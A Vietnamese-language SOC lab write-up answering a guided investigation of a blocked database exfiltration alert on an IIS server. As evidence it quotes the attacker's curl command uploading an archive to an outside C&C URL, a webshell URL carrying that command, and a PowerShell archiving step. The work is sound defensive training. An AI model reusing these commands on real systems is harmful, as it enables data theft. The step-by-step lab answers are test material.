# Lab 7 Writeup

## Mục lục
1. [SOCM-01: Database File Exfiltration Attempt Detected](#1-socm-01-database-file-exfiltration-attempt-detected)

## 1. SOCM-01: Database File Exfiltration Attempt Detected

Step 1: TRIAGE: What is the IP address of the compromised server mentioned in this alert?
--> Địa chỉ IP của máy bị xâm nhập thực ra chính là source IP: 192.168.15.4

Step 2: TRIAGE: What is the name of the database file that was targeted for exfiltration?
--> Đề cập trong phần Alert detail, file database cần tìm chính là ```FinovaDB.mdf```

Step 3: CORRELATE: Check EDR logs - which process attempted to exfiltrate the database file?
--> Nhìn vào phần Endpoint Security, ta có thể thấy được đường dẫn command line được ghi nhận từ tiến trình curl.exe ```curl -X POST --data-binary @C:\Users\Public\config_backup.zip https://c.elhn1m.io/upload``` đang thực hiện tải file ```config_backup.zip``` lên máy chủ C&C: https://c.elhn1m.io/upload. Như vậy tiến trình curl.exe là đáp án cần tìm.

<table>
  <tr>
    <td align="center">
      
      <br>
      <em>Hình 1. Hình chụp minh chứng Step3</em>
    </td>
  </tr>
</table>

Step 4: CORRELATE: What is the destination URL where the attacker attempted to send the database file?
--> Xem tại Log Management --> chọn EDR log, tìm kiếm ta thấy được destination URL cần tìm chính là ```https://c.elhn1m.io/upload```

<table>
  <tr>
    <td align="center">
      
      <br>
      <em>Hình 2. Hình chụp minh chứng Step4</em>
    </td>
  </tr>
</table>

Step 5: ROOT CAUSE: What is the parent process of the curl.exe process that executed the exfiltration command? Check Process History to identify how the command was spawned.
--> Vào mục Endpoint Security, tại endpoint DEV-SERVER-01 (192.168.15.4), mình thấy được tiến trình cha (parent process) được hiển thị là w3wp.exe. Đáp án là w3wp.exe

<table>
  <tr>
    <td align="center">
      
      <br>
      <em>Hình 3. Hình chụp minh chứng Step5</em>
    </td>
  </tr>
</table>

Step 6: ROOT CAUSE: Which endpoint was used to execute the exfiltration command? Check IIS logs for suspicious endpoint activity around the alert time, correlating with the parent process identified in step 5.
--> Lập luận như sau: mình biết được lệnh thực thi trích xuất dữ liệu có liên quan đến hành vi đánh cắp tập tin config_backup.zip và tập tin FinovaDB.mdf được phát hiện tại Endpoint Security. Từ đó mình có thể tìm một trong 02 tập tin trên tại trường ```Raw Log Content``` của Log Management (IIS), kết hợp với ngày giờ đã được cung cấp trước đó. Đáp án chính là: ```/assets/cache.aspx``` tại trường cs_uri_stem.

<table>
  <tr>
    <td align="center">
      
      <br>
      <em>Hình 4. Hình chụp minh chứng Step6</em>
    </td>
  </tr>
</table>

Step 7: ROOT CAUSE: What is the external attacker IP address making requests to execute commands?
--> Dựa vào dữ kiện từ Step6, mình dễ dàng tìm thấy được địa chỉ IP của kẻ tấn công tại trường ```c_ip```. Đáp án chính là: 185.77.12.34

Step 8: INVESTIGATION: Based on its location and behavior, what type of functionality does the /assets/cache.aspx file provide?
--> Dựa vào URL đã được Wireshark ghi lại: 
http://dev.finova.one/assets/cache.aspx?cmd=curl%20-X%20POST%20--data-binary%20%40C%3A%5CUsers%5CPublic%5Cconfig_backup.zip%20https%3A%2F%2Fc.elhn1m.io%2Fupload

Kết hợp với thông tin IP attacker là: 185.77.12.34 và cả thông tin từ nguồn này: https://cyberjutsu.io/blog/webshell-la-gi. Mình có thể kết luận chức năng của endpoint /assets/cache.aspx chính là ```web shell```.

<table>
  <tr>
    <td align="center">
      
      <br>
      <em>Hình 5. Hình chụp minh chứng Step8</em>
    </td>
  </tr>
</table>

Step 9: TIMELINE: Before the exfiltration attempt, what directory listing command was executed to discover the database file?
--> Lập luận như sau: vì mình biết được ```the database file``` mà đề bài yêu cầu chính là file ```FinovaDB.mdf```. Từ đó khi tìm kiếm log (WINDOWS_EVENT) với tên file database đã biết, mình biết được đường dẫn đầy đủ của file là: ```C:\Program Files\Microsoft SQL Server\MSSQL16.MSSQLSERVER\MSSQL\DATA\FinovaDB.mdf``` tại thời điểm ```21 Jan 2026, 4:09PM```. Lúc này để kiểm chứng xem lệnh ```directory listing``` mà đề bài yêu cầu bằng cách tìm kiếm đường dẫn thư mục ```C:\Program Files\Microsoft SQL Server\MSSQL16.MSSQLSERVER\MSSQL\DATA``` tại log (WINDOWS_EVENT), mình thấy được 02 log tại thời điểm ```21 Jan 2026, 4:08PM``` và ```21 Jan 2026, 4:09PM```. Từ đó xác định chính xác thời điểm 4:08 là thời điểm lệnh dir đến đường dẫn thư mục được thực thi. Đáp án là: ```C:\Program Files\Microsoft SQL Server\MSSQL16.MSSQLSERVER\MSSQL\DATA```.

<table>
  <tr>
    <td align="center">
      
      <br>
      <em>Hình 6. Hình chụp minh chứng Step9</em>
    </td>
  </tr>
</table>

Step 10: TIMELINE: What is the IIS request ID for the directory listing command that discovered the database file?
--> Tìm kiếm tại log (IIS), với URI là ```/assets/cache.aspx``` đã tìm được từ Step6, mình dễ dàng tìm được thời điểm kẻ tấn công request lệnh truy vấn đến thư mục của file ```FinovaDB.mdf``` là ``` 21 Jan 2026, 4:08PM```. Từ đó mình tìm được Request ID tại trường ```request_id``` là: ```1000145302```

<table>
  <tr>
    <td align="center">
      
      <br>
      <em>Hình 7. Hình chụp minh chứng Step10</em>
    </td>
  </tr>
</table>

Step 11: TIMELINE: Earlier in the attack chain, what PowerShell command was used to create a zip archive?
--> Tìm kiếm tại log (IIS), với URI là ```/assets/cache.aspx``` và với trường Raw Log Content là config_backup.zip (do mình xác định được file zip được đề cập chính là config_backup.zip). Từ đó tìm ra được lệnh Powershell được thực thi là: ```powershell%20Compress-Archive%20-Path%20C%3A%5Cinetpub%5Cwwwroot%5Cconfig%5C%2A%20-DestinationPath%20C%3A%5CUsers%5CPublic%5Cconfig_backup.zip```. Dùng công cụ ```http://urldecoder.org/``` và bỏ chuỗi ```powershell``` ở phần đầu tiên, mình có được đáp án chính là: ```Compress-Archive -Path C:\inetpub\wwwroot\config\* -DestinationPath C:\Users\Public\config_backup.zip```

<table>
  <tr>
    <td align="center">
      
      <br>
      <em>Hình 8. Hình chụp minh chứng Step11</em>
    </td>
  </tr>
</table>

Step 12: INVESTIGATION: What directory was explored before the zip file was created? Check IIS logs for directory listing commands.
--> Dựa vào thông tin có được từ Step11, mình dễ dàng biết được C:\inetpub\wwwroot\config chính là thư mục được "explored". Bởi vì mình biết được tham số ```-Path``` trong hàm ```Compress-Archive``` chính là đường dẫn thư mục cần được nén lại. Đáp án là: ```C:\inetpub\wwwroot\config```

Step 13: INVESTIGATION: What files were collected and exfiltrated in the config_backup.zip? List all filenames in alphabetical order, separated by commas.
--> Dựa vào thông tin từ Step3, mình biết được file ```config_backup.zip``` được tải lên vào máy chủ C&C: https://c.elhn1m.io/upload với giao thức ```POST```. Từ đó, mình dễ dàng tìm được data của file zip trên Wireshark. Sau khi trích xuất data đó và giải mã chúng bằng công cụ ```CyberChef```, mình đã có được file cần tìm, bên trong là các file lần lượt là: ```appsettings.json, connectionstrings.config, database.config, secrets.json, web.config```.

<table>
  <tr>
    <td align="center">
      
      <br>
      <em>Hình 9. Hình chụp chứa thông tin tập tin zip dưới dạng chuỗi hex được hiển thị trên Wireshark</em>
    </td>
  </tr>
</table>

<table>
  <tr>
    <td align="center">
      
      <br>
      <em>Hình 10. Hình chụp chứa thông tin các tập tin bên trong tập tin config_backup.zip</em>
    </td>
  </tr>
</table>

Step 14: IOC: Was the database file exfiltration attempt successful or blocked?
--> Tìm kiếm ```log (EDR)```, kết hợp với Raw Log Content là FinovaDB.mdf. Mình dễ dàng tìm được log tại thời điểm ```21 Jan 2026, 4:09PM``` cho biết được database file này đã bị chặn. Đáp án là: BLOCKED

<table>
  <tr>
    <td align="center">
      
      <br>
      <em>Hình 11. Hình chụp minh chứng Step14</em>
    </td>
  </tr>
</table>

Step 15: ASSESSMENT: Based on your investigation, what is your final assessment of this alert?
--> Tổng kết dữ kiện mà mình đã tìm được ở các Step trước đó, mình kết luận final assessment của alert chính là: ```True Positive - Blocked Database Exfiltration Attempt```

Step 16: CONTAINMENT: What immediate containment actions should be taken?
--> Vì mình biết được server đã bị kẻ tấn công cài webshell để trích xuất dữ liệu nhạy cảm và gửi dữ liệu về máy chủ C&C. Cho nên đáp án để khắc phục sự cố trên đó là: ```Your answer: Isolate server - remove entry point - block domain```
